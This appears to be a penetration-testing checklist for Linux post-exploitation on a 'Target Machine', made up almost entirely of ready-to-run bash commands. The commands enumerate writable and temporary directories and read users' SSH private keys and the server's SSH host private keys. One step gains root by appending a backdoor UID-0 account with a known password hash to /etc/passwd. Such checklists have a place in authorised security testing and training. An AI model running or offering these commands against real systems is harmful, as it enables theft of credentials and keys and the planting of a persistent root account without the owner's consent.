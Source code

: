 - [ ] Manually list files on the Target Machine
```bash
ls -lah /var/lib/
ls -lah /var/db/
ls -lah /var/tmp/
ls -lah /opt/
ls -lah /tmp/
ls -lah /dev/shm/
```

- [ ] Check for default SSH files in default SSH folder on the Target Machine
```bash
cat /home/user/.ssh/id_rsa
cat /home/user/.ssh/id_rsa.pub
cat /home/user/.ssh/id_ecdsa
cat /home/user/.ssh/id_ecdsa_sk
cat /home/user/.ssh/id_ed25519
cat /home/user/.ssh/id_ed25519_sk
cat /home/user/.ssh/id_dsa
cat /home/user/.ssh/id_dsa.pub
cat /home/user/.ssh/identity
cat /home/user/.ssh/identity.pub
cat /home/user/.ssh/authorized_keys
cat /etc/ssh/ssh_config
cat /etc/ssh/sshd_config
cat /etc/ssh/ssh_host_dsa_key.pub
cat /etc/ssh/ssh_host_dsa_key
cat /etc/ssh/ssh_host_rsa_key.pub
cat /etc/ssh/ssh_host_rsa_key
cat /etc/ssh/ssh_host_key.pub
cat /etc/ssh/ssh_host_key
```

- [ ] View log files in the `/var/log` directory on the Target Machine
```bash
ls -lah /var/log 
```

- [ ] Inspecting file permissions and users ownership on the Target Machine
```bash
ls -l /etc/passwd
```

- [ ] Escalating privileges by editing `/etc/passwd` on the Target Machine
```bash
openssl passwd w00t
echo "root2:Fdzt.eqJQ4s0g:0:0:root:/root:/bin/bash" >> /etc/passwd
```

- [ ] List all world writable directories on the Target Machine
```bash
find / -writable -type d 2>/dev/null
find / -perm -222 -type d 2>/dev/null
find / -perm -o w -type d 2>/dev/null
```
